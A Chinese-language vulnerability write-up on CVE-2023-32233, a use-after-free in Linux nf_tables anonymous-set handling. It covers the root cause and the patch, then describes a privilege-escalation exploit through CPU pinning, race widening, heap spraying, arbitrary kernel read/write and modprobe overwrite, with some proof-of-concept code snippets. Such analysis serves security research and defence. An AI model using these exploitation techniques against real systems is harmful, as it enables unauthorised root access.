


# 奇安信攻防社区-CVE-2023-32233 Linux 内核 UAF 漏洞分析与利用

### CVE-2023-32233 Linux 内核 UAF 漏洞分析与利用

Linux 内核 nftable 模块在处理匿名 set 时存在 UAF. ‍ 漏洞分析 漏洞成因是 nf\_tables\_deactivate\_set​ 在释放匿名 set 时没有将 set 的标记设置为 inactive，导致它还能被此次 netlink 批处...

Linux 内核 nftable 模块在处理匿名 set 时存在 UAF.

‍

## 漏洞分析

漏洞成因是 `nf_tables_deactivate_set`​ 在释放匿名 set 时没有将 set 的标记设置为 inactive，导致它还能被此次 netlink 批处理中的其他任务访问，从而导致 UAF，为了介绍该漏洞和漏洞利用需要先对 netlink 的源码进行分析。

‍

本文使用的源码版本：linux-6.1.tar.gz

‍

### 源码分析

用户态进程可以一次提交多个 netlink 请求给内核，这些请求在内存中按顺序存储，请求的存储结构为 `struct nlmsghdr`​ ，下发请求后内核通过 nfnetlink\_rcv\_batch 解析每个请求并处理。

​​​​

用户态填充和发送请求的大致代码如下：

```c
struct mnl_nlmsg_batch *batch = mnl_nlmsg_batch_start(mnl_batch_buffer, mnl_batch_limit);

nftnl_batch_begin(mnl_nlmsg_batch_current(batch), seq++);
table_seq = seq;
mnl_nlmsg_batch_next(batch);

// 在批处理中新建请求
struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
    mnl_nlmsg_batch_current(batch),
    NFT_MSG_NEWSETELEM,
    NFPROTO_INET,
    NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK,
    seq++
);
nftnl_set_elems_nlmsg_build_payload(nlh, set);
mnl_nlmsg_batch_next(batch);

// 发送请求给内核处理
if (mnl_socket_sendto(nl, mnl_nlmsg_batch_head(batch),
                        mnl_nlmsg_batch_size(batch)) < 0) {
    err(1, "Cannot into mnl_socket_sendto()");
}

mnl_nlmsg_batch_stop(batch);
```

netlink 批处理消息的处理流程涉及两个线程，nfnetlink\_rcv\_batch 在进程的系统调用上下文中执行对请求处理后，将请求转换为 trans 通过 nf\_tables\_destroy\_list 提交给 nf\_tables\_trans\_destroy\_work 内核线程做进一步处理。

​​

nfnetlink\_rcv\_batch 的关键代码如下：

-   nfnetlink\_rcv\_batch
    
    1.  while (skb->len >= nlmsg\_total\_size(0))
        
        1.  nc = nfnetlink\_find\_client(type, ss); <span style="font-weight: bold;" data-type="strong">--> struct nfnl\_callback nf\_tables\_cb\[NFT\_MSG\_MAX\]</span>
        2.  err = nc->call(skb, &info, (const struct nlattr \*\*)cda); --> 调用命令的处理函数
    2.  err = ss->commit(net, oskb)
        
        -   nf\_tables\_commit
            
        
        1.  遍历 nft\_net->commit\_list 根据 trans 类型进行处理
            
            1.  case NFT\_MSG\_DELSETELEM:
                
                -   nft\_setelem\_remove(net, te->set, te->elem\_priv);
        2.  nf\_tables\_commit\_release
            
            1.  把 commit\_list 里面的请求放到 nf\_tables\_destroy\_list，然后让 nf\_tables\_trans\_destroy\_work 去销毁
            2.  list\_splice\_tail\_init(&nft\_net-><span style="font-weight: bold;" data-type="strong">commit\_list</span>, &<span style="font-weight: bold;" data-type="strong">nf\_tables\_destroy\_list</span>);
            3.  schedule\_work(&trans\_destroy\_work); --> <span style="font-weight: bold;" data-type="strong">调度 nf\_tables\_trans\_destroy\_work</span>

主要的处理逻辑是：

1.  遍历批处理中的每个请求，根据请求的 type 去 ss 中查找对应的处理函数，本文使用的 ss 会引用 nf\_tables\_cb 回调函数注册表
2.  通过 nc->call 调用请求对应的处理函数，处理函数中对请求处理后，一般会分配 trans 对象并将其放到 commit\_list 中
3.  处理批处理中的所有请求后，会调用 ss->commit --> nf\_tables\_commit 从 commit\_list 取出 trans 进行第二次处理
4.  nf\_tables\_commit 最后通过 nf\_tables\_commit\_release 把 commit\_list 放到 nf\_tables\_destroy\_list 中，然后让 nf\_tables\_trans\_destroy\_work 线程完成最后的处理​​

‍

nf\_tables\_trans\_destroy\_work 的主要代码如下：

-   nf\_tables\_trans\_destroy\_work
    
    1.  list\_splice\_init(&nf\_tables\_destroy\_list, &head);
        
    2.  list\_for\_each\_entry\_safe(trans, next, &head, list --> 遍历 nf\_tables\_destroy\_list 中的 trans.
        
        -   nft\_commit\_release(trans); --> 根据 trans 的类型进行相应处理

‍

以 NFT\_MSG\_DELSETELEM 请求为例跟一下请求的处理路径加深理解，首先会进入 nf\_tables\_delsetelem 进行处理，处理后会分配 trans 并将其放到 commit\_list 中

```c
    trans = nft_trans_elem_alloc(ctx, NFT_MSG_DELSETELEM, set);
    if (trans == NULL)
        goto fail_trans;

    nft_trans_elem(trans) = elem;
    nft_trans_commit_list_add_tail(ctx->net, trans);
```

然后 nf\_tables\_commit 会处理 trans

```c
        case NFT_MSG_DELSETELEM:
            te = (struct nft_trans_elem *)trans->data;

            nf_tables_setelem_notify(&trans->ctx, te->set,
                         &te->elem,
                         NFT_MSG_DELSETELEM);
            nft_setelem_remove(net, te->set, &te->elem);
            if (!nft_setelem_is_catchall(te->set, &te->elem)) {
                atomic_dec(&te->set->nelems);
                te->set->ndeact--;
            }
            break;
```

最后在 nf\_tables\_trans\_destroy\_work --> nft\_commit\_release 完成最后的处理。

```c
static void nft_commit_release(struct nft_trans *trans)
{
    switch (trans->msg_type) {
    case NFT_MSG_DELSETELEM:
        nf_tables_set_elem_destroy(&trans->ctx,
                       nft_trans_elem_set(trans),
                       nft_trans_elem(trans).priv);
        break;
```

‍

### 漏洞触发

接下来看一下漏洞触发的代码路径和内存变化，触发 UAF 的步骤如下：

1.  创建一个匿名 set（pwn\_lookup\_set）并往 set 里面插入一个 elem
    
2.  创建一个 rule，rule 里面新建一个 lookup 的 expr，lookup expr 会引用 pwn\_lookup\_set
    
3.  创建一个批处理其中包含两个请求：
    
    1.  使用 NFT\_MSG\_DELRULE 删除上一步创建的 rule
    2.  使用 NFT\_MSG\_DELSETELEM 删除 pwn\_lookup\_set 的 elem
4.  在 nft\_commit\_release 处理 NFT\_MSG\_DELRULE 时会释放 rule 里面的 expr，然后在 nft\_lookup\_destroy 里面会释放匿名 set
    
5.  在 nft\_commit\_release 处理 NFT\_MSG\_DELSETELEM 就会访问到已经释放的 set.
    

‍

下面以图和代码结合的形式分析内存状态的变化，创建匿名 set 和 rule 后的内存关系如下：

​​

> PS: pwn\_lookup\_set 是一个匿名 set，里面有一个 elem；rule 里面有一个 lookup 类型的 expr，其中引用了 pwn\_lookup\_set

请求提交给内核后，会在 nfnetlink\_rcv\_batch 获取相关对象的指针（rule、set、elem 的指针），然后将其封装到 trans 对象中，最后在 nf\_tables\_trans\_destroy\_work --> nft\_commit\_release 完成具体的释放。

​​

在 nft\_commit\_release 处理 NFT\_MSG\_DELRULE 命令时会同步释放 rule 里面的 expr，在释放 lookup expr 时会进入 nft\_lookup\_destroy 释放其关联的 set，即 pwn\_lookup\_set

```c
static void nft_lookup_destroy(const struct nft_ctx *ctx,
                   const struct nft_expr *expr)
{
    struct nft_lookup *priv = nft_expr_priv(expr);

    nf_tables_destroy_set(ctx, priv->set);
}
```

然后在处理 NFT\_MSG\_DELSETELEM 时就会用到已经<span style="font-weight: bold;" data-type="strong">被释放的 set</span>，因为内核无法知道其 trans 保存的 set 指针已经被释放

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}

static void nft_commit_release(struct nft_trans *trans)
{
    switch (trans->msg_type) {

    case NFT_MSG_DELSETELEM:
        nf_tables_set_elem_destroy(&trans->ctx,
                       nft_trans_elem_set(trans),
                       nft_trans_elem(trans).priv);
        break;
```

最后总结一下：在 nfnetlink\_rcv\_batch 处理 NFT\_MSG\_DELRULE 和 NFT\_MSG\_DELSETELEM 会把分别需要用到的对象指针（rule 指针和 set 指针）保存到 trans，然后在 nf\_tables\_trans\_destroy\_work 处理 NFT\_MSG\_DELRULE 命令释放 rule 和 set 时，NFT\_MSG\_DELSETELEM 请求已经在队列中了，然后在处理 NFT\_MSG\_DELSETELEM 时就会拿到该 trans 里面保存的 set 指针，而此时该指针指向的对象已经被释放。

‍

### 补丁分析

补丁地址：[https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c1592a89942e9678f7d9c8030efa777c0d57edab](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c1592a89942e9678f7d9c8030efa777c0d57edab)

关键点：

```c
 void nf_tables_deactivate_set(const struct nft_ctx *ctx, struct nft_set *set,
                  struct nft_set_binding *binding,
                  enum nft_trans_phase phase)
 {
    switch (phase) {
    case NFT_TRANS_PREPARE:
+       if (nft_set_is_anonymous(set))
+           nft_deactivate_next(ctx->net, set);
+
        set->use--;
        return;
    case NFT_TRANS_ABORT:
```

在 NFT\_TRANS\_PREPARE 阶段，如果 set 是匿名的就将其设置为 inactivate 状态，这样批处理后面的其他请求就无法拿到该 set 的指针。

在 nf\_tables\_delrule 里面会使用 NFT\_TRANS\_PREPARE 参数调用 nft\_rule\_expr\_deactivate：

-   nf\_tables\_delrule
    
    -   nft\_delrule\_by\_chain
        
    -   nft\_delrule
        
        -   nft\_rule\_expr\_deactivate(ctx, rule, NFT\_TRANS\_PREPARE);

打上补丁后，NFT\_MSG\_DELRULE 就会进入 nf\_tables\_deactivate\_set 把 expr 引用的匿名 set 标记为 inactivate，这样后面的 NFT\_MSG\_DELSETELEM 就拿不到该 set 的指针，在 nf\_tables\_delsetelem --> nft\_set\_lookup 里面会校验 set 的状态：

```c
static struct nft_set *nft_set_lookup(const struct nft_table *table,
                      const struct nlattr *nla, u8 genmask)
{
    struct nft_set *set;

    if (nla == NULL)
        return ERR_PTR(-EINVAL);

    list_for_each_entry_rcu(set, &table->sets, list) {
        if (!nla_strcmp(nla, set->name) &&
            nft_active_genmask(set, genmask))
            return set;
    }
    return ERR_PTR(-ENOENT);
}
```

‍

## 漏洞利用

### 越界销毁 expr

前面我们对漏洞成因和漏洞触发涉及的部分源码进行了分析，下面讨论漏洞利用部分，首先我们看看 USE 点的相关代码：

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

在执行 nf\_tables\_set\_elem\_destroy 时 set 已经被释放，可以用不同类型的 set 占位，进而控制 ext，最终导致越界释放一个 expr。

要理解这一步需要搞清楚 set 和 elem 的结构关系，这些信息可以通过 nft\_add\_set\_elem 获取，主要代码如下：

-   nft\_add\_set\_elem
    
    1.  nft\_set\_ext\_prepare(&tmpl);
        
    2.  nft\_set\_ext\_add(&tmpl, NFT\_SET\_EXT\_FLAGS);
        
    3.  nft\_set\_ext\_add\_length(&tmpl, NFT\_SET\_EXT\_KEY, set->klen);
        
    4.  nft\_set\_ext\_add\_length(&tmpl, NFT\_SET\_EXT\_USERDATA, ulen);
        
    5.  elem.priv = nft\_set\_elem\_init(set, &tmpl, elem.key.val.data, elem.key\_end.val.data, elem.data.val.data, timeout, expiration, <span style="font-weight: bold;" data-type="strong">GFP\_KERNEL\_ACCOUNT</span>);
        
        -   <span style="font-weight: bold;" data-type="strong">elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);</span>
        -   nft\_set\_ext\_memcpy(tmpl, NFT\_SET\_EXT\_KEY, nft\_set\_ext\_key(ext), key, set->klen)
    6.  nla\_memcpy(&nft\_set\_ext\_userdata(ext)->data, nla\[NFTA\_SET\_ELEM\_USERDATA\], ulen);
        
    7.  nft\_setelem\_insert(ctx->net, set, &elem, &ext2, flags)
        
        -   nft\_rhash\_insert
        -   struct nft\_rhash \*priv = nft\_set\_priv(set);
        -   struct nft\_rhash\_elem \*he = elem->priv;
        -   <span style="font-weight: bold;" data-type="strong">rhashtable\_lookup\_get\_insert\_key</span>(&priv->ht, &arg, &he->node, nft\_rhash\_params); 把 elem 插入到 set 里面

通过分析可知 elem 的数据结构如下：

​​

elem 的开头数据大小为 set->ops->elemsize 其中的数据结构与 set 的类型相关，本文主要涉及 nft\_set\_rhash\_type 和 nft\_set\_hash\_type，两者的 elemsize 分别为 8 和 0x10.

​​​​

‍

elem 的第二个部分是 struct nft\_set\_ext 结构体，在 struct nft\_set\_ext 的后面是实际的 ext 数据，ext->offset 是一个 9 字节的数组，数组中的每一项表示该类型的数据相对 ext 结构起始地址的偏移。

下图是一个存储了 NFT\_SET\_EXT\_KEY 和 NFT\_SET\_EXT\_EXPRESSIONS 的 elem 对象的布局：

‍

​​

> PS： offset\[0\] 保存了 NFT\_SET\_EXT\_KEY 数据相对 ext 的偏移；offset\[7\] 保存了 NFT\_SET\_EXT\_EXPRESSIONS 数据相对 ext 的偏移；内核根据偏移就能计算出相应数据的地址。

下面再看一下内核访问 NFT\_SET\_EXT\_EXPRESSIONS 使用的相关代码：

```c
static inline void *nft_set_ext(const struct nft_set_ext *ext, u8 id)
{
    return (void *)ext + ext->offset[id];
}

static inline struct nft_set_elem_expr *nft_set_ext_expr(const struct nft_set_ext *ext)
{
    return nft_set_ext(ext, NFT_SET_EXT_EXPRESSIONS);
}
```

nft\_set\_ext\_expr 首先从 ext->offset\[NFT\_SET\_EXT\_EXPRESSIONS\] 取出偏移，然后加上 ext 地址，最后强转为 `struct nft_set_elem_expr`​ 指针。

再次回到漏洞原语：

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

如果我们首先设置 set->ops->elemsize = 8，触发 free 后使用 set->ops->elemsize = 0x10 的 set 占位，这样 nft\_set\_elem\_ext 计算出的 ext 就会发生 8 字节的错位：

​​

错位后拿到的 `ext->offset[2...8]`​ 位于原始 ext 的 EXT\_KEY 部分，该数据由用户态控制：

```c
    nftnl_set_elem_set(set_elem, NFTNL_SET_ELEM_KEY, set_elem_key, set_elem_key_len);  --> 设置 EXT_KEY
    nftnl_set_elem_set(set_elem, NFTNL_SET_ELEM_USERDATA, set_elem_userdata, sizeof(set_elem_userdata));

    nftnl_set_elem_add(set, set_elem);

    struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
        mnl_nlmsg_batch_current(batch),
        NFT_MSG_NEWSETELEM,
        NFPROTO_INET,
        NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK,
        seq
    );
```

通过控制 ext->offset\[NFT\_SET\_EXT\_EXPRESSIONS\]，可以让 nft\_set\_ext\_expr(ext) 返回一个非法的地址作为 nft\_set\_elem\_expr，非法的 expr 会在 nft\_set\_elem\_expr\_destroy 中被释放

```c
static void nft_set_elem_expr_destroy(const struct nft_ctx *ctx,
                      struct nft_set_elem_expr *elem_expr)
{
    struct nft_expr *expr;
    u32 size;

    nft_setelem_expr_foreach(expr, elem_expr, size)
        __nft_set_elem_expr_destroy(ctx, expr);
}
```

expr 最终会在 nf\_tables\_expr\_destroy 被释放

```c
static void nf_tables_expr_destroy(const struct nft_ctx *ctx,
                   struct nft_expr *expr)
{
    const struct nft_expr_type *type = expr->ops->type;

    if (expr->ops->destroy)
        expr->ops->destroy(ctx, expr);
    module_put(type->owner);
}
```

由于我们目前并没有泄露内核地址，所以无法控制 expr->ops 来劫持控制流，作者采取的思路是控制 ext->offset\[NFT\_SET\_EXT\_EXPRESSIONS\] 让 nft\_set\_ext\_expr 返回一个合法的 expr，具体思路是通过堆布局在 elem 相邻位置布置 expr，然后通过 UAF 销毁相邻的 合法 expr，进行漏洞的转换，作者使用的是 nft\_log\_type

```c
static struct nft_expr_type nft_log_type;
static const struct nft_expr_ops nft_log_ops = {
    .type       = &nft_log_type,
    .size       = NFT_EXPR_SIZE(sizeof(struct nft_log)),
    .eval       = nft_log_eval,
    .init       = nft_log_init,
    .destroy    = nft_log_destroy,
    .dump       = nft_log_dump,
    .reduce     = NFT_REDUCE_READONLY,
};

static struct nft_expr_type nft_log_type __read_mostly = {
    .name       = "log",
    .ops        = &nft_log_ops,
    .policy     = nft_log_policy,
    .maxattr    = NFTA_LOG_MAX,
    .owner      = THIS_MODULE,
};

static void nft_log_destroy(const struct nft_ctx *ctx,
                const struct nft_expr *expr)
{
    struct nft_log *priv = nft_expr_priv(expr);
    struct nf_loginfo *li = &priv->loginfo;

    if (priv->prefix != nft_log_null_prefix)
        kfree(priv->prefix);

    if (li->u.log.level == NFT_LOGLEVEL_AUDIT)
        return;

    nf_logger_put(ctx->family, li->type);
}
```

通过销毁 log expr 可以导致 nft\_log->prefix 的 UAF.

​​

‍

### 稳定占位 UAF 对象

下面讨论如何稳定的占位被释放的 set，根据前面的代码分析可知 set 会在 nf\_tables\_trans\_destroy\_work 线程中被释放和重用，free 和 use 点之间在一个大循环中完成

```c
    list_for_each_entry_safe(trans, next, &head, list) {
        list_del(&trans->list);
        nft_commit_release(trans);
    }
```

> PS: 1. 第一次循环删除 rule 导致 set 被释放；2. 第二次循环引用被释放的 set.

对于该漏洞的占位需要解决两个问题：

1.  由于 nf\_tables\_trans\_destroy\_work 是内核线程，用户态无法知道它实际运行时所处的 CPU，如果发起占位请求的进程所处 CPU 和它的 CPU 不一致会导致占位失败（CONFIG\_SLUB\_CPU\_PARTIAL）
2.  free 点和 use 点之间的时间窗比较小，需要想办法增大，否则无法在狭窄的时机窗完成占位

首先是第一个问题，用户态进程可以通过设置 CPU 亲和性的方式将进程或者线程绑定到某个 CPU 去执行，对于内核线程则是随机调度用户态无法控制，作者采取的方案是利用 死循环线程占位 CPU（1，2，3），提高内核将 nf\_tables\_trans\_destroy\_work 调度到<span style="font-weight: bold;" data-type="strong">某个特定 CPU（0）的可能性</span>，如图所示：

​​​​

> PS: 没记错的话这种占位其他 CPU 的方式之前一些 binder 系统服务的漏洞利用中出现过

第二个问题的解决利用 nft\_commit\_release 中会循环删除元素的特性，在删除 set 时会遍历删除 set 里面所有的 elem

```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
    int i;

    if (WARN_ON(set->use > 0))
        return;

    for (i = 0; i < set->num_exprs; i++)
        nft_expr_destroy(ctx, set->exprs[i]);

    set->ops->destroy(set); // 遍历删除 set 里面的所有 elem
    nft_set_catchall_destroy(ctx, set);
    kfree(set->name);
    kvfree(set);
}
```

可以利用代码的循环增大时间窗，具体做法如下，下发三个请求分别为：

1.  NFT\_MSG\_DELRULE 删除 rule 及它引用的匿名 set
2.  NFT\_MSG\_DELSET 删除 delay\_set，该 set 里面有大量的 elem
3.  NFT\_MSG\_DELSETELEM 引用被释放的匿名 set

在 nf\_tables\_trans\_destroy\_work 处理第二个请求释放 delay\_set 时，会花很多时间释放其中的 elem，这时我们可以在用户态堆喷占位 set。

​​​​

‍

通过调试可以确认 pwn\_lookup\_set 被占位后，ops->elemsize 从 8 变成了 16

```plaintext
(gdb) p (((struct nft_trans_elem *)trans->data)->set)->name
$12 = 0xffff888113fffea0 "race_set_0004"
(gdb) p *(((struct nft_trans_elem *)trans->data)->set)->ops
$13 = {
  lookup = 0xffffffffc085ff00 <nft_hash_lookup>,
  update = 0x0 <fixed_percpu_data>,
  delete = 0x0 <fixed_percpu_data>,
  insert = 0xffffffffc085fa10 <nft_hash_insert>,
  activate = 0xffffffffc085f420 <nft_hash_activate>,
  deactivate = 0xffffffffc085f950 <nft_hash_deactivate>,
  flush = 0xffffffffc085f450 <nft_hash_flush>,
  remove = 0xffffffffc085f480 <nft_hash_remove>,
  walk = 0xffffffffc085f4c0 <nft_hash_walk>,
  get = 0xffffffffc085fe40 <nft_hash_get>,
  privsize = 0xffffffffc085f830 <nft_hash_privsize>,
  estimate = 0xffffffffc085f7d0 <nft_hash_estimate>,
  init = 0xffffffffc085f790 <nft_hash_init>,
  destroy = 0xffffffffc085f690 <nft_hash_destroy>,
  gc_init = 0x0 <fixed_percpu_data>,
  elemsize = 16
}
(gdb) bt
#0  0xffffffffc0850984 in nft_commit_release (trans=0xffff88811e22da00) at net/netfilter/nf_tables_api.c:8476
#1  nf_tables_trans_destroy_work (w=<optimized out>) at net/netfilter/nf_tables_api.c:8513
#2  0xffffffff810e581c in process_one_work (worker=worker@entry=0xffff8881039c7540, work=0xffffffffc0872380 <trans_destroy_work>) at kernel/workqueue.c:2289
#3  0xffffffff810e5a40 in worker_thread (__worker=0xffff8881039c7540) at kernel/workqueue.c:2436
#4  0xffffffff810ee77a in kthread (_create=0xffff888107f66640) at kernel/kthread.c:376
#5  0xffffffff810028bf in ret_from_fork () at arch/x86/entry/entry_64.S:306
#6  0x0000000000000000 in ?? ()
```

‍

### 堆风水分析

占位 set 后可以让 elem 错位，利用 nf\_tables\_set\_elem\_destroy 可以越界销毁一个 expr，因此我们需要在 elem 的附近布置 nft\_log expr，elem 在 nft\_add\_set\_elem 中被分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，分配大小可以控制。

log expr 可以通过 newrule 请求分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，log expr 会嵌入到 rule 的内存中。

-   nf\_tables\_newrule
    
    1.  handle = nf\_tables\_alloc\_handle(table);
        
    2.  nft\_ctx\_init(&ctx, net, skb, info->nlh, family, table, chain, nla);
        
    3.  size = 0;
        
    4.  nla\_for\_each\_nested(tmp, nla\[NFTA\_RULE\_EXPRESSIONS\], rem) <span style="font-weight: bold;" data-type="strong">--> 计算 expr 占用的内存大小</span>
        
        -   err = nf\_tables\_expr\_parse(&ctx, tmp, &expr\_info\[n\]); --> 根据 expr 挑选 ops
        -   size += expr\_info\[n\].ops->size;
    5.  ulen = nla\_len(nla\[NFTA\_RULE\_USERDATA\]);
        
    6.  usize = sizeof(struct nft\_userdata) + ulen;
        
    7.  <span style="font-weight: bold;" data-type="strong">rule = kzalloc(sizeof(\*rule) + size + usize, GFP\_KERNEL\_ACCOUNT);</span>
        
    8.  rule->dlen = <span style="font-weight: bold;" data-type="strong">size</span>; --> expr 占用的内存
        
    9.  然后往 rule->data 区域填充 expr（顺序排布）
        
        -   nf\_tables\_newexpr(&ctx, &expr\_info\[i\], expr)
            
        -   nft\_log\_init
            
            1.  nla = tb\[NFTA\_LOG\_PREFIX\];
            2.  priv->prefix = kmalloc(nla\_len(nla) + 1, <span style="font-weight: bold;" data-type="strong">GFP\_KERNEL</span>);
            3.  nla\_strscpy(priv->prefix, nla, nla\_len(nla) + 1);

‍

堆喷之后的内存布局示意图如下：

‍

​​​​​​

> PS: nft\_log expr 内嵌在 rule 结构中，控制 elem 的 offset 让其返回指向相邻 nft\_log expr 的指针，就可以销毁 nft\_log expr

poc 中堆喷逻辑如下：

```c
    for (int spray = - 0x60; spray < 0x21; ++ spray) {
        if (spray == 0) {
            pwn_create_lookup_set_elem(batch, seq++, pwn_lookup_set, uaf_set_key, sizeof(uaf_set_key));
        }
        else {
            pwn_create_log_rule(batch, seq++, pwn_log_chain, log_prefix);
        }
    }
```

> 就是在 elem 前后喷几十个 rule 确保 elem 被 rule 包围

在分配 rule 和 elem 的位置下断点打印分配的地址可以确认堆喷情况

```c
def newrule_cb(bp):
    rule = get_symbol_address("rule")
    print("[new_rule] 0x{:08x}".format(rule))
    return False

newrule_bp = WrapperBp("net/netfilter/nf_tables_api.c:3526", cb=newrule_cb)

def add_set_elem_cb(bp):
    elem = get_symbol_address("elem.priv")
    print("[add_set_elem] 0x{:08x}".format(elem))
    return False

add_set_elem_bp = WrapperBp("net/netfilter/nf_tables_api.c:6154", cb=add_set_elem_cb)
```

部分日志如下

log rule 和 pwn\_set 的 elem 的堆喷布局看起来用的大小应该是 0x80

```plaintext
[new_rule] 0xffff88810dd7a300
[new_rule] 0xffff88810dd7ad00
[new_rule] 0xffff88810dd7ad80
[add_set_elem] 0xffff88810dd7a980
[new_rule] 0xffff88810dd7a280
[new_rule] 0xffff88810dd7a800
[new_rule] 0xffff88810dd7ab00
[new_rule] 0xffff88810dd7a200
[new_rule] 0xffff88810dd7a480
[new_rule] 0xffff88810dd7a380
[new_rule] 0xffff88810dd7a500
[new_rule] 0xffff88810dd7af00
[new_rule] 0xffff88810dd7a580
[new_rule] 0xffff88810dd7ae80
[new_rule] 0xffff88810dd7a900   ---> elem 前面的 rule
[new_rule] 0xffff88810dd7aa80
[new_rule] 0xffff88810dd7aa00   ---> elem 后面的 rule
[new_rule] 0xffff88810dd7ab80
```

‍

### 任意地址读写

至此我们将漏洞转换为了 nft\_log->prefix 的 UAF，该内存通过 GFP\_KERNEL 分配且大小可控，prefix 是一个字符串用起来不方便，使用 `nft_object->udata`​ 占位后，通过 nft\_log 释放 prefix，转换为 udata 的 UAF

```c
static int nf_tables_newobj(struct sk_buff *skb, const struct nfnl_info *info,
                const struct nlattr * const nla[])
{

    if (nla[NFTA_OBJ_USERDATA]) {
        obj->udata = nla_memdup(nla[NFTA_OBJ_USERDATA], GFP_KERNEL);
        if (obj->udata == NULL)
            goto err_userdata;

        obj->udlen = nla_len(nla[NFTA_OBJ_USERDATA]);
    }
```

然后通过 `nft_dynset_new`​ 分配 `nft_counter`​ 和 `nft_quota`​ 占位 udata，通过读取 udata 泄露`nft_counter`​ 中的 ko 地址，然后利用 udata 修改 nft\_quota->consumed 实现任意地址读写。

```c
struct nft_quota {
    atomic64_t  quota;
    unsigned long   flags;
    atomic64_t  *consumed;
};

static inline bool nft_overquota(struct nft_quota *priv,
                 const struct sk_buff *skb)
{
    return atomic64_add_return(skb->len, priv->consumed) >=
           atomic64_read(&priv->quota);
}

static int nft_quota_do_dump(struct sk_buff *skb, struct nft_quota *priv,
                 bool reset)
{
    u64 consumed, consumed_cap, quota;
    u32 flags = priv->flags;

    /* Since we inconditionally increment consumed quota for each packet
     * that we see, don't go over the quota boundary in what we send to
     * userspace.
     */
    consumed = atomic64_read(priv->consumed);
}
```

修改 modprobe 提权。

‍

‍

## 总结

<span style="font-weight: bold;" data-type="strong">漏洞挖掘</span>

这个漏洞涉及的代码非常多，包括对象的管理、netlink 请求的处理流程，涉及多个线程、全局链表的协同，需要对相关代码十分熟悉才能通过代码审计发现该漏洞，不过之前好像也出过匿名 set 的洞，如果专门去看匿名 set 相关逻辑应该可以降低漏洞挖掘难度。而且驱动代码确实对匿名 set 有特别的处理导致这个漏洞的产生，启示我们在做代码审计时需要重点关注特判的逻辑场景。

‍

<span style="font-weight: bold;" data-type="strong">漏洞利用</span>

1.  这个漏洞的原语相当于越界类型混淆，由于没有地址泄露无法伪造 expr 对象，所以布置一个合法对象将漏洞转换为 prefix 的 UAF。
2.  通过 CPU 占位控制内核线程调度的思路非常巧妙，内核中有不少漏洞都是在内核线程里面触发，这个思路可以提升这类漏洞的可利用性。
3.  利用程序循环来提升 RACE 是比较常用的思路，遇到类似场景可以选用。

‍

‍

## 参考资料

1.  [https://www.openwall.com/lists/oss-security/2023/05/15/5/1](https://www.openwall.com/lists/oss-security/2023/05/15/5/1)

‍

‍

‍

‍

‍
